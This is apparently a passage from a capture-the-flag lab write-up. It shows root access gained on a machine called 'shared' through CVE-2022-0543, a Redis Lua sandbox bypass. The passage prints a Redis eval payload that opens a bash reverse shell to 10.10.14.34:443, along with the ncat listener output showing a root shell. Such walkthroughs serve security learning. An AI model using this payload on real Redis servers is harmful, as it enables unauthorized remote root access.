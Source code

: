 ```bash
```

## Optional: Root Reverse Shell


### CVE-2022-0543

After some investigation on how we could get RCE we find out that a recent CVE has been discovered that affects Debian distros running redis it's a LUA sandbox bypass that is detailed in this [post](https://security.packt.com/redis-vulnerability-cve-2022-0543/).

Let's test if it works in the victim's machine by running the following commands.
```bash
127.0.0.1:6379> AUTH F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("bash -c \'bash -i >& /dev/tcp/10.10.14.34/443 0>&1\'"); return 0' 0
```

And now let's check if ncat has received the reverse shell.

```bash
sudo ncat -lnvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.172.
Ncat: Connection from 10.10.11.172:60870.
bash: cannot set terminal process group (1766): Inappropriate ioctl for device
bash: no job control in this shell
root@shared:/var/lib/redis# whoami
whoami
root
```

It worked!, using this CVE we can successfully get a reverse shell and fully PWN this machine.

Lux-Sit